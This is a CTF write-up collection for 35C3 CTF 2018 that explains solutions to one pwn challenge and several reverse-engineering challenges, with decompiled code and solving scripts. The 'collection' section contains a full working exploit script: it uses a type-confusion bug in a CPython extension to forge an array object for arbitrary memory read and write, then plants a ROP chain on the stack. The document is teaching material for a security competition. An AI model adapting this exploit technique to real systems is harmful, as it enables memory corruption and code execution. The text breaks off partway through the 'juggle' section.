


# 2018-12-27-35C3-CTF #

[CTFTime link](https://ctftime.org/event/718) | [Website](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/)

---

## Challenges ##

Note: only listing solved challenges.

### pwn ###

 - [x] [150 collection](#150-pwn--collection)

### rev ###

 - [x] [49 0pack](#49-rev--0pack)
 - [x] [72 box of blink](#72-rev--box-of-blink)
 - [x] [65 corebot](#65-rev--corebot)
 - [x] [97 juggle](#97-rev--juggle)
 - [x] [215 notifico](#215-rev--notifico)
 
---

## 150 pwn / Collection ##

**Description**

> [behold my collection](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/uploads/52ae03f0ae030a74a2bd466852308cba74c0f313.tar.gz)
> 
> The container is built with the following important statements
> 
> FROM ubuntu:18.04
> 
> ```
> RUN apt-get -y install python3.6
> COPY build/lib.linux-x86_64-3.6/Collection.cpython-36m-x86_64-linux-gnu.so /usr/local/lib/python3.6/dist-packages/Collection.cpython-36m-x86_64-linux-gnu.so
> ```
> 
> Copy the library in the same destination path and check that it works with
> 
> ```bash
> python3.6 test.py
> ```
> 
> Challenge runs at 35.207.157.79:4444
> 
> Difficulty: easy

**Files provided**

 - [collection](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/uploads/52ae03f0ae030a74a2bd466852308cba74c0f313.tar.gz)

**Solution** (by [Mem2019](https://github.com/Mem2019))

This should be an easy challenge, but I have missed some basic Python knowledge essential to solving the chanllenge, so I failed to solve it in the contest. :(

Anyway let's start looking at it. The `Python3.6` and `libc` given are exactly same as the ones in `Ubuntu 18.04`, so they are not important. According to the instruction and the files given, we can find that a new data type `Collection` implemented in `Collection.cpython-36m-x86_64-linux-gnu.so` is given. Anything that can help to get the flag directly in Python is disabled, and it is obvious that we need to exploit the given `Collection` data type to get the flag.

But how does the extended data type works? For example, there should be some convention that helps the CPython to know how to correspond Python function with particular native C function, just like Android native function. After some investigation and Google, I found this [documentation](https://docs.python.org/3/extending/), and I will not detail the software development part here because they are well explained in the link I provides.

### reverse engineering

After understanding the basic concept above, we can start looking at the `.so` binary.

```c
__int64 PyInit_Collection()
{
  __int64 v0; // rax
  __int64 ret; // rbx

  if ( (signed int)PyType_Ready((__int64)type_Collection) < 0 )
    return 0LL;
  v0 = PyModule_Create2((__int64)def_module, 1013LL); // create the module
  ret = v0;
  if ( !v0 )
    return ret;
  ++type_Collection[0];
  PyModule_AddObject(v0, (__int64)"Collection", (__int64)type_Collection);
  // add the type into module
  // These codes are basically same as the demo in official doc
  mprotect((void *)0x439000, 1uLL, 7);
  MEMORY[0x43968F] = _mm_load_si128((const __m128i *)&16_0xcc);
  MEMORY[0x43969F] = MEMORY[0x43968F];          // write int3 into python3.6???
  mprotect((void *)0x439000, 1uLL, 5);
  init_sandbox(); // disable most syscall, we can only read the flag by `readv` and `write`
  return ret;
}
```

Then we need to look at `type_Collection` to find the member functions of data type `Collection`. I initially decide to import the `PyTypeObject` from `Python.h`, but the dependency problem is a bit annoying. If anyone knows a good way to import the data structures from header files like this, please let me know. :)

Another way is just to look at the memory layout and guess. After some investigation, it is obvious that `0x1470` correspond to the `get` member function that should be essential, according to memory layout.



In addition, `0x1700` is the `__init__` and `0x1550` is the `__new__`, because `0x1700` seems to assign some initial value to the struct while `0x1550` only create and return a object. To ensure our assumption, we can set the breakpoint and we can find that indeed `0x1550` will be called first when creating a `Collection` object. 

The way to debug this thing is also tricky. The `.so` of `Collection` will not be loaded until `import Collection` is executed. However, when we run `python3` interactively, the `read` syscall will be called after we import the module, which will cause the bad syscall due to the sandbox. To make the debug more convinient, we can patch the library and remove the sandbox first.

### analyze critical functions

It is quite inconvinient that we cannot import the structrue to help analysis, so we cannot use `y` to let the code more readable.

```c
_QWORD *__fastcall _new__(__int64 type_Collection, __int64 a2)
{
  __int64 len; // rax
  _QWORD *result; // rax
  __int64 arg_dict; // [rsp+0h] [rbp-18h]
  unsigned __int64 v5; // [rsp+8h] [rbp-10h]

  v5 = __readfsqword(0x28u);
  if ( PyArg_ParseTuple(a2, "O!", &PyDict_Type, &arg_dict) )
  {
    len = PyDict_Size(arg_dict, (__int64)"O!");
    if ( len && len <= 32 )                     // off by one, but not very exploitable
    {
      result = (_QWORD *)(*(__int64 (__fastcall **)(__int64, _QWORD))(type_Collection + 0x130))(type_Collection, 0LL);// type->tp_alloc(type, 0)
      if ( result )
        result[2] = 0LL;
    }
    else
    {
      result = &Py_NoneStruct;
    }
  }
  else
  {
    PyErr_SetString(PyExc_TypeError, "parameter must be a dictionary");
    result = 0LL;
  }
  return result;
}
```

`PyArg_ParseTuple` is an interesting function, it separates the tuple `PyObject` into elements specified by format, and return `NULL` if the format is inconsistent with the real type. The detial is in official document. The `PyObject` is the `C` representation of Python object in C. The first field is reference count, and the second field is a pointer pointing to its `PyTypeObject` struct that specifies its type. The following data vary with different types of object. For example, for the Python big integer type, there will be an array storing the value of the big integer. The total length of the `PyObject` can also vary.

Then we are going to look at `__init__` and `get` to see the memory layout of `PyObject` of `Collection`

```c
// the return value of __new__ is a1
unsigned int __fastcall _init__(__int64 collection_obj, __int64 a2)
{
  __int64 v2; // r14
  __int64 dict_; // rbx
  int i; // er12
  __int64 keys; // r13
  list *lRecord; // r15
  char *strKey; // rax
  int type; // esi
  __int64 v9; // rdx
  record *v10; // rax
  handler *v11; // rax
  unsigned int result; // eax
  __int64 v13; // rdi
  __int64 v14; // rax
  char *v15; // ST08_8
  __int64 dict; // [rsp+18h] [rbp-60h]
  __int64 poKey; // [rsp+20h] [rbp-58h]
  _QWORD *poVal; // [rsp+28h] [rbp-50h]
  __int64 ppos; // [rsp+30h] [rbp-48h]
  unsigned __int64 v20; // [rsp+38h] [rbp-40h]

  v2 = collection_obj;
  v20 = __readfsqword(0x28u);
  if ( PyArg_ParseTuple(a2, "O!", &PyDict_Type, &dict) )
  {
    dict_ = dict;
    if ( *(_BYTE *)(*(_QWORD *)(dict + 8) + 171LL) & 0x20 )
    {
      i = 0;
      keys = PyDict_Keys(dict);
      if ( *(_BYTE *)(*(_QWORD *)(keys + 8) + 171LL) & 2 )
      {
        while ( i < PyList_Size(keys) )
        {
          if ( !(*(_BYTE *)(*(_QWORD *)(PyList_GetItem(keys, i) + 8) + 171LL) & 0x10) )
          {
            PyErr_SetString(PyExc_TypeError, "parameter must be a string");
              // check all keys are string
            goto LABEL_20;
          }
          ++i;
        }
        lRecord = listCreate();
        ppos = 0LL;
        while ( PyDict_Next(dict_, &ppos, &poKey, &poVal) )
        {
          strKey = PyUnicode_AsUTF8(poKey);
          type = 0;
          v9 = *(_QWORD *)(poVal[1] + 168LL);
          if ( !(v9 & 0x2000000) )
          {
            type = 2;
            if ( !(v9 & 0x20000000) )
            {
              type = 1;
              if ( !(v9 & 0x1000000) )
              {
                v15 = strKey;
                PyErr_SetString(PyExc_TypeError, "properties can only be either list, dictionary or an integer");
                type = -1;
                strKey = v15;
              }
            }
          }
          v10 = newRecord(strKey, type);
          listAppend(lRecord, v10);
        }
        v11 = getTypeHandler(lRecord);
        ppos = 0LL;
        *(_QWORD *)(collection_obj + 16) = v11;
        while ( 1 )
        {
          result = PyDict_Next(dict_, &ppos, &poKey, &poVal);
          if ( !result )
            break;
          v13 = poKey;
          ++*poVal;
          PyUnicode_AsUTF8(v13);
          if ( *(_BYTE *)(poVal[1] + 171LL) & 1 )
          {
            v14 = PyLong_AsLong(poVal);
            *(_QWORD *)(v2 + 8 * ppos + 16) = v14;
          }
          else
          {
            *(_QWORD *)(v2 + 8 * ppos + 16) = poVal;// ppos start from 1
          }
        }
      }
      else
      {
        PyErr_SetString(PyExc_TypeError, "parameter must be a list");
LABEL_20:
        PyErr_SetString(PyExc_TypeError, "parameter must be a list");
        result = -1;
      }
    }
    else
    {
      PyErr_SetString(PyExc_TypeError, "parameter must be a list");
      result = -1;
    }
  }
  else
  {
    PyErr_SetString(PyExc_TypeError, "parameter must be a dictionary");
    result = 0;
  }
  return result;
}
void *__fastcall py_get(CollectionObj *a1, __int64 a2)
{
  __int64 *v2; // rcx
  CollectionObj *v3; // rbx
  __int64 *v4; // rdi
  int idx; // eax
  node *iter; // rdx
  int v7; // ecx
  void *result; // rax
  __int64 arg; // [rsp+0h] [rbp-18h]
  unsigned __int64 v10; // [rsp+8h] [rbp-10h]

  v3 = a1;
  v10 = __readfsqword(0x28u);
  if ( !PyArg_ParseTuple(a2, "s", &arg, v2) )
    return &Py_NoneStruct;
  v4 = (__int64 *)a1->type;
  if ( v4 != type_Collection && !(unsigned int)PyType_IsSubtype(v4, type_Collection) )
    return &Py_NoneStruct;
  idx = listIndexOf(v3->u[0].handler->lRecord, arg, (unsigned int (__fastcall *)(_QWORD, __int64))recordNameComparator);
  if ( idx == -1 )
    return &Py_NoneStruct;
  iter = v3->u[0].handler->lRecord->head;
  if ( iter && idx > 0 )
  {
    v7 = 0;
    do
    {
      iter = iter->next;
      ++v7;
    }
    while ( iter && idx > v7 );
  }
  result = (void *)v3->u[idx + 1].val;
  if ( iter->record->val_type == 1 )
    result = (void *)PyLong_FromLong(result);
  return result;
}
```

relavant data structures

```assembly
00000000 list            struc ; (sizeof=0x14, align=0x4, copyof_14)
00000000 head            dq ?
00000008 tail            dq ?                    ; offset
00000010 len             dd ?
00000014 list            ends
00000014
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 record          struc ; (sizeof=0xC, align=0x4, mappedto_15)
00000000 key_str         dq ?
00000008 val_type        dd ?
0000000C record          ends
0000000C
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 handler         struc ; (sizeof=0xC, align=0x4, mappedto_17)
00000000 lRecord         dq ?
00000008 count           dd ?
0000000C handler         ends
0000000C
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 node            struc ; (sizeof=0x10, align=0x8, copyof_16)
00000000 record          dq ?
00000008 next            dq ?
00000010 node            ends
00000010
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 union_7         union ; (sizeof=0x8, mappedto_19)
00000000 handler         dq ?                    ; offset
00000000 val             dq ?
00000000 obj             dq ?
00000000 union_7         ends
00000000
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 CollectionObj   struc ; (sizeof=0x118, mappedto_20)
00000000 ref_count       dq ?
00000008 type            dq ?
00000010 u               union_7 33 dup(?)
00000118 CollectionObj   ends
```

`record` stores the key which is a string, and the type of value correspond to that key; and the `handler` stores a list of records, which is the type information of a specific dictionary. In the `CollectionObj`, which is the `PyObject` of `Collection`, we have a pointer to the `handler`, and we also have the array that stores the `PyObject` of values in dictionary, except for the integer type we just store it as long type in C. The order in handler linked list and the order in array in `CollectionObj` should have been matched exactly to each other. However, when `getTypeHandler` is called, it will return a previous handler if the handler already exists, **even if the order of entries in the dictionary is different**.

Here is where the vulnerability comes, type confusion. The PoC that cause the crash is simple:

```python
ia = Collection.Collection({"int": 0x1337, "arr": [0xdead, 0xbeef]})
ai = Collection.Collection({"arr": [0xdead, 0xbeef], "int": 0x1337}) 
#they will share the same handler, even if the order is different
#and the order of the array in `CollectionObj` is also different
print(ia.get("int"))
print(ia.get("arr"))
print(ai.get("int")) #print address
print(ai.get("arr")) #cause crash because it regards 0x1337 as address
```

### exploitation

Because I can leak the object address using `id(obj)`, so we can fake a object easily in the memory and return an address pointing to it in the `Collection.get`. If we can find a structure that internally keep a pointer pointing to a C array, and we can read and write its element, we will have arbitrary address read and write. This is where I failed. The Python string is not the case because it stores the data directly in the `PyObject`, and we cannot edit it. The Python list is neither the case because the pointer points to an array of pointers pointing to Python objects. When we assign new value to the list, what is changed is the pointer to the Python object, instead of the content inside the object, so we cannot exploit this. Then I come to some other approach such as Python heap exploitation, but they don't work very well, or the difficulty to exploit in that way is far beyond my capability. After the CTF, I read some of the write-ups and found `array.array` that performs exactly same as what I expected.

Then the thing become very easy. We can leak the `libc` and stack address very easily, and write to stack to perform ROP that gets the flag.

```python
import os
flag = open("flag", "r")
os.dup2(flag.fileno(), 1023)
flag.close()

from sys import modules
del modules['os']
import Collection
keys = list(__builtins__.__dict__.keys())
for k in keys:
	if k != 'id' and k != 'hex' and k != 'print' and k != 'range':
		del __builtins__.__dict__[k]

# ----------------start---------------------

p64 = lambda x: x.to_bytes(8,"little")

def create_rop(iov, buf):
    #ROP is easy, I won't detail this
	POPRAX = p64(0x0000000000420f7b)
	POPRDI = p64(0x0000000000421612)
	POPRSI = p64(0x000000000042110e)
	POPRDX = p64(0x00000000004026c1)
	READV = p64(0x4208B0)
	WRITE = p64(0x4207E0)
	rop = b''
	rop += POPRDI
	rop += p64(1023)
	rop += POPRSI
	rop += p64(iov)
	rop += POPRDX
	rop += p64(1)
	rop += READV #readv(1023, iov, 1)
	rop += POPRDI
	rop += p64(1)
	rop += POPRSI
	rop += p64(buf)
	rop += POPRDX
	rop += p64(0x100)
	rop += WRITE #write(1, buf, 0x100)
	rop += p64(0x2019)
	return rop

def fake_array(addr):
    # https://github.com/python/cpython/blob/master/Modules/arraymodule.c
    # the first field is reference count, we make it big to avoid GC to collect it
    # the 0x9d3340 and 0x715508 represent the type of PyObject and type of C array respectively
    # in this case, I have chosen the unsigned char array to make it easy
    # they are obtained from debugging
    # the 3rd and 5th fields are both length, 
    # I don't know why there are 2 fields storing the same thing,
    # although they can be inequal sometimes,
    # so I just copied everything from the memory
	return p64(0x0000000000002019) + p64(0x00000000009d3340) \
		+ p64(0x0000000000002019) + p64(addr) \
		+ p64(0x0000000000002019) + p64(0x0000000000715508) \
		+ p64(0x0000000000000000) + p64(0x0000000000000000)

ia = Collection.Collection({"int":0x5cee56c130df7336, "arr":[0x2019, 0xbeef]})

ENVIRON = 0xa4f980
leak = fake_array(ENVIRON)
#suprisingly the environ is in Python module instead of libc module 
leak_addr = id(leak) + 0x20
#for the string, the data is +0x20 after the PyObject address
#but in the interactive mode, it seems to be +0x48?

print(hex(leak_addr))

ai_leak2 = Collection.Collection({"arr":[0x2019, 0xbeef], "int":leak_addr})
leak_arr2 = ai_leak2.get("arr") 
#This triggers the vulnerability, and returns an faked array.array object
#also, make sure don't reassign this variable, otherwise the GC might be triggered

print(hex(id(leak_arr2)))
assert id(leak_arr2) == leak_addr

stack_addr = 0
for i in range(0,8):
	stack_addr |= (leak_arr2[i]) << (8 * i)
#leak the stack address

#here we decide to write the ROP into the return address of Py_Main
#which should return to function main, and will be executed when the Python script terminates
#This is good because it will not interfere essential data at the top of the stack,
#and we are sure it will be executed as long as the program terminates
stack_addr -= 0x148 # will point to return address of Py_Main

print(hex(stack_addr))
#-------------------leak address to shoot rop

write = fake_array(stack_addr)
write_addr = id(write) + 0x20
buf_addr = 0xA4FF00 # choose a buffer that will not be used
fake_iov = p64(buf_addr) + p64(0x100)
iov_addr = id(fake_iov) + 0x20
#fake the iov for readv

ai_write = Collection.Collection({"arr":[0x2019, 0xbeef], "int":write_addr})
write_arr = ai_write.get("arr")
print(hex(id(write_arr)))
#basically same as above

rop = create_rop(iov_addr, buf_addr)

for i in range(15 * 8):
	write_arr[i] = rop[i]
#-----------------------write ROP
```

## 49 rev / 0pack ##

**Description**

> Build with my new packer framework. Do you likes zeros in weird places? Try [this](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/uploads/0pack-e58db1f74c3da8d9f89d7d381308aeaf1a615848.tar.gz)!
> 
> (Password does not contain 35C3_, prepend before submitting flag `35C3_${extracted_password}`) Guest challenge by Qubasa.
> 
Difficulty estimate: medium

**Files provided**

 - [0pack](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/uploads/0pack-e58db1f74c3da8d9f89d7d381308aeaf1a615848.tar.gz)

**Solution** (by [Mem2019](https://github.com/Mem2019))

To solve this challenge, we need to unpack the binary first. After some inspection, we can dump the binary using gdb `dump binary memory code.bin 0x555555554628 0x555555567094`, because this is the region where the writable codes lie.

Then put it into the executable.

```python
p = open("code.bin", "r")
d = p.read()
p.close()

f = open("0pack.elf", "r+")
f.seek(0x628)
f.write(d)
f.close()
```

Using `backtrace` command in gdb, we can find the function that calls the function to get input, here it is `fgets`

```c
__int64 __usercall sub_5555555669A0@<rax>(__int64 a1@<rsi>, _BYTE *a2@<r15>)
{
  char need1; // [rsp+1Dh] [rbp-83h]
  char s[15]; // [rsp+20h] [rbp-80h]
  char v5[16]; // [rsp+30h] [rbp-70h]
  char out[58]; // [rsp+50h] [rbp-50h]
  unsigned __int64 v7; // [rsp+98h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  need1 = 1;
  strcpy(v5, "Input password: ");
  printf("%s", v5, a1);
  fgets(s, 15, stdin);
  putchar(10);
  if ( s[0] != a2[74869] || antidbg() ) //clear plain text comparison
    need1 = 0;
  if ( s[1] != a2[74968] || antidbg() )
    need1 = 0;
  if ( s[2] != a2[74298] || antidbg() )
    need1 = 0;
  if ( s[3] != a2[74319] || antidbg() )
    need1 = 0;
  if ( s[4] != a2[74868] || antidbg() )
    need1 = 0;
  if ( s[5] != a2[74319] || antidbg() )
    need1 = 0;
  if ( s[6] != a2[74664] || antidbg() )
    need1 = 0;
  if ( s[7] != a2[74869] || antidbg() )
    need1 = 0;
  if ( s[8] != a2[74874] || antidbg() )
    need1 = 0;
  if ( s[9] != a2[74298] || antidbg() )
    need1 = 0;
  if ( s[10] != a2[74309] || antidbg() )
    need1 = 0;
  if ( s[11] != a2[74954] || antidbg() )
    need1 = 0;
  if ( s[12] != a2[74792] || antidbg() )
    need1 = 0;
  if ( s[13] != a2[74968] || antidbg() )
    need1 = 0;
  if ( need1 )
  {
    *(_QWORD *)out = '��_��� (';
    *(_QWORD *)&out[8] = '��� (\n)�';
    *(_QWORD *)&out[16] = '��>)���_';
    *(_QWORD *)&out[24] = '���-����';
    *(_QWORD *)&out[32] = '��␌�(\n';
    *(_QWORD *)&out[40] = 'uf )���_';
    *(_QWORD *)&out[48] = '!haey kc';
    *(_WORD *)&out[56] = '\n';
  }
  else
  {
    *(_QWORD *)out = '�� wwwwA';
    *(_DWORD *)&out[8] = '��_�';
    *(_WORD *)&out[12] = '\n�';
    out[14] = 0;
  }
  printf("%s", out);
  return 0LL;
}
```

By debugging, we can find that `a2 == 0x555555554000`, so get the flag using IDA script

```python
s = [None] * 14
s[0] = chr(Byte(0x555555554000 + 74869))
s[1] = chr(Byte(0x555555554000 + 74968))
s[2] = chr(Byte(0x555555554000 + 74298))
s[3] = chr(Byte(0x555555554000 + 74319))
s[4] = chr(Byte(0x555555554000 + 74868))
s[5] = chr(Byte(0x555555554000 + 74319))
s[6] = chr(Byte(0x555555554000 + 74664))
s[7] = chr(Byte(0x555555554000 + 74869))
s[8] = chr(Byte(0x555555554000 + 74874))
s[9] = chr(Byte(0x555555554000 + 74298))
s[10] = chr(Byte(0x555555554000 + 74309))
s[11] = chr(Byte(0x555555554000 + 74954))
s[12] = chr(Byte(0x555555554000 + 74792))
s[13] = chr(Byte(0x555555554000 + 74968))

print ''.join(s)
```

But one thing that I don't understand is the way the packer works. The entry point is `0` for this executable, and so the initial rip should be `0x555555554000` with ASLR disabled. However, the data there in IDA pro and gdb are `0xe9 0xfb 0x5f 0x41 0x00`, which is `jmp 0x55555596a000`. The instructions in `0x55555596a000` make sense, because they seem to be the entry point of a packer. However, I don't know where `0xe9 0xfb 0x5f 0x41 0x00` comes from, because that address should be magic number of ELF header, `"\x7fELF"`, and indeed in the ELF file it is so. And I cannot find `0xe9 0xfb 0x5f 0x41 0x00` in binary ELF file. Well, so I am not sure how these bytes are changed.

## 72 rev / box of blink ##

**Description**

> As every year, can you please decode [this](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/uploads/blink.csv.gz) for me?
> 
> 

**Files provided**

 - [blink.csv.gz](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/uploads/blink.csv.gz)

**Solution**

The image shows a prototyping setup with:

 - a LED board (bottom right)
 - an oscilloscope (top) showing some squarewaves / digital data capture
 - a logic analyser (centre)
 - a Raspberry Pi (bottom left)

It is clear that the Pi has a program running that presumably displays the flag on the LED board at some point, and that the logic analyser captured this operation as the file we were given. The oscilloscope might give some additional hints for what to look for in the data but it is not terribly important to solving the challenge.

Unpacking the `blink.csv.gz` file, we can see that it is a quite large (410 MiB) Comma-Separated Values file, i.e. a text-based table format. In the first 21 lines we see some metadata emitted by the logic analyser, but more importantly, we see the labels for all the 10000000 data entries that follow.

```bash
$ wc -l blink.csv
10000021
$ head -n 22 blink.csv
#Model,MDO3014
#Firmware Version,1.26
#
#Waveform Type,DIGITAL,,,,,,,,,,,,,
#Point Format,Y,,,,,,,,,,,,,
#Horizontal Units,s,,,,,,,,,,,,,
#Horizontal Scale,0.004,,,,,,,,,,,,,
#,,,,,,,,,,,,,,
#Sample Interval,4e-09,,,,,,,,,,,,,
#Record Length,1e+07,,,,,,,,,,,,,
#Gating,0.0% to 100.0%,,,,,,,,,,,,,
#,,,,,,,,,,,,,,
#Vertical Units,V,V,V,V,V,V,V,V,V,V,V,V,V,V
#Threshold Used,1.65,1.65,1.65,1.65,1.65,1.65,1.65,1.65,1.65,1.65,1.65,1.65,1.65,1.65
#,,,,,,,,,,,,,,
#,,,,,,,,,,,,,,
#,,,,,,,,,,,,,,
#,,,,,,,,,,,,,,
#,,,,,,,,,,,,,,
#Label,OE,LAT,CLK,E,D,C,B,A,B2,B1,G2,G1,R2,R1
#TIME,D13,D12,D11,D10,D9,D8,D7,D6,D5,D4,D3,D2,D1,D0
-1.0000000e-03,0,0,0,0,1,0,0,0,0,0,0,1,0,1
```

`TIME` is the only column with decimal data, but it is irrelevant to us (it is enough to know that successive lines represent samples taken at successive times), so we will ignore it. The remaining columns are all digital, only taking values `0` or `1`. Some of their labels are clear enough, some not so much:

 - `OE` - ?
 - `LAT` - latch?
 - `CLK` - clock
 - `E` ... `A` - ? 5 bits = 64 possible values
 - `{R,G,B}{1,2}` - 2 bits for each colour channel - Red, Green, Blue

`CLK` is a very important signal to see in captures like this. It is not trivial to perfectly synchronise two devices, so it is common to use a dedicated clock signal emitted by one device (master) that tells the other (slave) when to read data from the remaining signals. In our case we only need to read data entries when the clock "goes high", i.e. its value is `0` on the previous sample and `1` on the current sample.

At this point we can try to test various theories about how the data is actually transmitted using the remaining signals (`LAT`, `E` ... `A`, and `{R,G,B}{1,2}`). However, for a speedy flag it was worth trying the simplest possible method – what if the Pi transmits displays the flag right away, i.e. there is no metadata exchanged, just pixels?

It would be useful to know what shape the data would be in. The photo is in good enough resolution (and was actually much higher res during the CTF) for us to be able to count the individual LEDs on the LED board. It consists of two 64x64 squares, 128x64 pixel resolution in total.

Then we can assume that `R1` is the most significant bit of the red channel, `R2` is the LSB (not that it really matters), and print out pixels!

[Full pixel reader script](scripts/Blink.hx)



The output is by no means perfect, but it got us the flag with minimal effort!

`35C3_D4s_blInk3nL1cht3n_1st_so_wund3rb4r`

## 65 rev / corebot ##

**Description**

> https://35c3ctf.ccc.ac/uploads/corebot-640d3c582340e647d72e1dd9418a3fd6
> 
> Difficulty estimate: easy
> 
> Guest challenge by Jesko / rattle.
> 
> **UPDATE**: Challenge binary replaced. Apologies for the inconvenience.

**Files provided**

 - [corebot](https://35c3ctf.ccc.ac/uploads/corebot-640d3c582340e647d72e1dd9418a3fd6)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The core function is easy, decrypt specific data using the key generated from `VolumeSerialNumber`, and compare the first 4 bytes of decryption result with `35C3`. In other word, we need to find the correct serial number that can decrypt the data to the flag.

The best way is to use the brute force crack.

```c
#include <windows.h>
#include <stdio.h>
struct key
{
	DWORD head[3];
	WORD serials[0x10];
}data;

DWORD cmode = CRYPT_MODE_ECB;
bool crack(DWORD serialNumber)
{
	DWORD len = 0x20;
	BYTE res[] = "\x10\x29\xB8\x45\x9D\x2A\xAB\x93\xFE\x89\xFB\x82\x93\x42\xA1\x8C\x2E\x90\x63\x00\x06\x11\x80\x64\xB8\x21\xC2\x9F\x35\xE7\x7E\xF2";
	HCRYPTPROV cryptContext;
	HCRYPTKEY key;
	CryptAcquireContextA(&cryptContext, 0, 0, 0x18u, 0);
    //initialization that gets the context
	int i = 16;
	do
	{
		--i;
		data.serials[i] = (WORD)serialNumber;
		serialNumber ^= ((DWORD)(WORD)serialNumber >> 4) ^ 
			((WORD)serialNumber << 11) ^ ((WORD)serialNumber << 7);
        //actually only low 16 bits of serial are used here, so we only need to crack 0x10000 times
	}// do some transformation
	while (i);
	CryptImportKey(cryptContext, (const BYTE *)&data, 0x2Cu, 0, 0, (HCRYPTKEY *)&key);
    //import the key from raw bytes to some struct
	CryptSetKeyParam(key, KP_MODE, (const BYTE *)&cmode, 0);
    //set mode to ECB
	CryptDecrypt(key, 0, 1, 0, (BYTE *)&res, (DWORD *)&len);
    //decrypt
	return (memcmp(res, "35C3", 4) == 0);
}

void init()
{
	data.head[0] = 0x208;
	data.head[1] = 0x6610;
	data.head[2] = 0x20;
}

int main()
{
	init();
	for (size_t i = 0; i < 0xffffffff; i++)
	{
		if (i % 0x1000 == 0)
			printf("%x\n", i);
		if (crack(i))
			printf("%x\n", i);
	}
	return 0;
}
```

A tricky point is that this program is written by assembly directly, because almost no compiler will generate assembly code like this. Especially, when doing the transformation, the hex-ray will give the wrong pseudo code.

For example,

```c
//in the loop
HIWORD(v18) = serialNumber;                 // wrong!
```

This is actually many continuous `push` that create an array finally, instead of assigning to the same variable for 16 times

```assembly
push    ax              ; push 16 * 2 = 0x20 bytes
```

along with the extra 0xC bytes being pushed after the loop, we have 0x2C bytes, which matches the `dwDataLen` argument of `CryptImportKey` exactly.

```assembly
push    20h
push    6610h
push    small 0
push    small 208h      ; 0xc bytes
```

## 97 rev / juggle ##

**Description**

> Can you help this restaurant Stack the right amount of Eggs in their ML algorithms?
> 
> Guest challenge by Tethys.
> 
> Note that you need to send a shutdown(2) after you sent your solution. The nmap netcat will do so for you, e.g.: `ncat 35.246.237.11 1 < solution.xml`
> 
> > `/usr/bin/ncat --help | grep -n 1 Ncat 7.60 ( https://nmap.org/ncat )`
> 
> Files here: https://35c3ctf.ccc.ac/uploads/juggle-f6b6fa299ba94bbbbce2058a5ca698db.tar

**Files provided**

 - [juggle.tar](https://35c3ctf.ccc.ac/uploads/juggle-f6b6fa299ba94bbbbce2058a5ca698db.tar)

**Solution**

At first I wanted to completely skip this challenge because I thought "ML" in the description referred to Machine Learning, not an uncommon theme in difficult CTF challenges. But I'm really glad I got back to it eventually!

In the archive we are given two files:

 - `Dockerfile` - contains the script for deploying a Docker container for this challenge, and its run command, which invokes [Xalan](https://xalan.apache.org/)
 - `challenge.min.xslt` - an [XSLT (Extensible Stylesheet Language Transformations)](https://en.wikipedia.org/wiki/XSLT) file, minified

The first step is to tidy up the `challenge` file with some auto format.

[Auto-formatted `challenge.xslt`](files/challenge.xslt)

At this point we can start dissecting the file more comfortably, one bit at a time. The root element, `<xsl:stylesheet>` specifies some XLST "libraries", [`math`](http://exslt.org/math/) and [`common`](http://exslt.org/exsl/index.html). It has two child nodes. The first is a template that matches on `/meal` elements. Based on the description we will have to send the challenge server an XML file, so it seems the root element of our file will be `<meal>`. The other is a template with a name, but no element match, so it will be invoked indirectly by the XSLT itself.

Let us have a closer look at the first template, matching on `/meal`. First, there is an assertion:

```xml
<xsl:if test="count(//plate) &gt; 300">
  <xsl:message terminate="yes">You do not have enough money to buy that much food</xsl:message>
</xsl:if>
```

If we have more than 300 `<plate>` elements in our submission, the above message is printed and the process is stopped (`terminate="yes"`). Note also the fact that plates are counted with `//plate`, i.e. nested two levels deep (including `<meal>`).

Next, a variable called `chef-drinks` is defined:

```xml
<xsl:variable name="chef-drinks">
  <value><xsl:value-of select="round(math:random() * 4294967296)"/></value>
  <value><xsl:value-of select="round(math:random() * 4294967296)"/></value>
  <value><xsl:value-of select="round(math:random() * 4294967296)"/></value>
  <value><xsl:value-of select="round(math:random() * 4294967296)"/></value>
  <value><xsl:value-of select="round(math:random() * 4294967296)"/></value>
</xsl:variable>
```

It seems to be an array of five randomly generated 32-bit unsigned integers (`4294967296 = 0x100000000 = 2^32`).

Finally, the other template is "called", like a function:

```xml
<xsl:call-template name="consume-meal">
  <xsl:with-param name="chef-drinks" select="exsl:node-set($chef-drinks)//value"/>
  <xsl:with-param name="food-eaten" select="1"/>
  <xsl:with-param name="course" select="course[position() = 1]/plate"/>
  <xsl:with-param name="drinks" select="state/drinks"/>
</xsl:call-template>
```

The `chef-drinks` variables is given as-is. `food-eaten` is initialised at `1`. `course` is set to all `<plate>` elements in the first `<course>` element of our `<meal>` submission. And finally, `drinks` is initialised to the `<drinks>` element in `<state>`.

Before looking into what `consume-meal` does, we already know / can guess our submission will have this shape:

```xml
<meal>
  <course>
    <plate>?</plate>
    <plate>?</plate>
    ...
  </course>
  <course>...</course>
  ...
  <state>
    <drinks>
      ?
    </drinks>
  </state>
</meal>
```

Now we can move onto `consume-meal`. Its first lines declare the parameters we already know about – `chef-drinks`, `food-eaten`, `course`, and `drinks`. Then there are two assertions:

```xml
<xsl:if test="$food-eaten &gt; 30000">
  <xsl:message terminate="yes">You ate too much and died</xsl:message>
</xsl:if>
<xsl:if test="count($drinks) &gt; 200">
